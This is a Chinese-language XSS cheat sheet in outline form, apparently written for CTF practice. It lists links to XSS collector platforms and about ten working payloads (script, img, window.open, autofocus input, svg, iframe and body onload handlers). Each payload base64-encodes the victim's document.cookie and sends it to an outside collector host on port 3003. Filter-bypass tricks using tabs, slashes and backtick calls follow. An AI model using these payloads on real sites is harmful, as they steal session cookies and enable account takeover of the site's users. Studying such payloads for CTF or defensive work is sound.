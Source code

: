 - # 资源
	- [XSS平台](https://xss.pt/xss.php)
	- [XSS Payload](https://tinyxss.terjanq.me/)
- # Payloads
  id:: 62f74a8a-6cfd-4478-bfc5-505c1622b940
- ```html
  <Script>
  var img=document.createElement("img"); img.src="http://hk2.xxx.xyz:3003/"+btoa(document.cookie);
  </Script>
  ```
- ```html
  <script>window.open('http://hk2.xxx.xyz:3003/'+btoa(document.cookie))</script>
  ```
- ```html
  <script>window.location.href='http://hk2.xxx.xyz:3003/'+btoa(document.cookie)</script>
  ```
- ```html
  <script>location.href='http://hk2.xxx.xyz:3003/'+btoa(document.cookie)</script>
  ```
- ```html
  <input onfocus="window.open('http://hk2.xxx.xyz:3003/'+btoa(document.cookie))" autofocus>
  ```
	- 通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
- ```html
  <input	onfocus="window.open('http://hk2.xxx.xyz:3003/'+btoa(document.cookie))"	autofocus>
  ```
- ```html
  <svg onload="window.open('http://hk2.xxx.xyz:3003/'+btoa(document.cookie))">
  ```
- ```html
  <iframe onload="window.open('http://hk2.xxx.xyz:3003/'+btoa(document.cookie))"></iframe>
  ```
- 使用tab绕过：
	- ```html
	  <iframe	onload="window.open('http://hk2.xxx.xyz:3003/'+btoa(document.cookie))"></iframe>
	  ```
- ```html
  <body onload="window.open('http://hy.xxx.xyz:3003/'+btoa(document.cookie))">
  ```
-
-
- # 绕过
- script
	- 使用上面 ((62f74a8a-6cfd-4478-bfc5-505c1622b940)) 的其他payload
- 空格
	- tab
	- `/`
- 括号
  id:: 62f7516d-1f63-4765-b37a-6f86e04d0c47
	- ```js
	  alert`1`
	  ```
- # 坑
- 有时需要让其访问127.0.0.1而不是外网地址
	- [[CTF/WP/CTFShow/web330]]